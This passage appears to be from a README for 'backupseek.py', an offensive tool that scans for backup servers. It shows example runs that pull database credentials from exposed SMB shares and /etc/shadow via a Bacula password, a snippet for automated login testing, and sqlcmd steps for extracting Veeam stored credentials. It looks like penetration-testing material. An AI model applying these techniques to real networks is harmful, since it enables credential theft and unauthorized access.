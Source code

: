 ### Example 3: Backup Share Compromise
```bash
./backupseek.py targets.txt --full
# Found: \\192.168.10.51\Backups (anonymous access)
# Downloaded: SQL_BACKUP_PROD_20250113.bak
# Extracted: Application connection strings
# Result: Database credentials recovered
# Impact: Access to production databases
```

### Example 4: Bacula Misconfiguration
```bash
./backupseek.py targets.txt --full
# Found: 192.168.10.52 - Bacula
# Accessed: /etc/bacula/ via misconfigured SMB share
# Extracted: Director password from bacula-dir.conf
# Result: Full backup catalog access
# Impact: Restored /etc/shadow from all Linux servers
```

## Advanced Techniques

### Custom Port Scanning
```python
# Modify BACKUP_PORTS dictionary in backupseek.py
BACKUP_PORTS = {
    8080: 'Custom Backup Web',
    50000: 'Proprietary Backup',
    # Add custom ports
}
```

### API Integration
```python
# Use JSON output for automation
import json

with open('backup_details.json', 'r') as f:
    results = json.load(f)

for server in results:
    if server['status'] == 'backup_found':
        print(f"Testing: {server['ip']}")
        for web in server['web_interfaces']:
            # Automated credential testing
            test_web_login(web['url'])
```

### Credential Extraction
```bash
# After identifying Veeam server
# Extract from SQL Server database

# Connect to VeeamBackup database
sqlcmd -S VEEAM-SERVER -d VeeamBackup

# Query credentials table
SELECT * FROM [dbo].[Credentials]

# Decrypt using Veeam decryption tools
# (requires Domain Admin or local admin on Veeam server)
```
